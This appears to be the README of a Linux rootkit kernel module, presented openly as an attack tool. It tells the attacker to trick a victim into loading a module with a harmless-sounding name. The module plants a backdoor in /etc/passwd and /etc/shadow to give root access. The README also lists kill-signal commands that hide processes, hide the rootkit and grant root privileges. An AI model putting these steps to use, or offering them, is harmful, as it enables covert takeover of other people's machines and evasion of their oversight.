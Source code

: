 #Linux Rootkit
###Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.
#Usage
- <h3>Install</h3>
```
sudo insmod secure_mod.ko
```

- <h3>Hide/Unhide a Process</h3>
```
kill -62 pid
```

- <h3>Hide/Unhide rootkit</h3>
```
kill -63 0
```
- <h3>Get Root Priviledge</h3>
```
kill -64 0
```
- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by</h4>
```
sudo rmmod secure_mod
```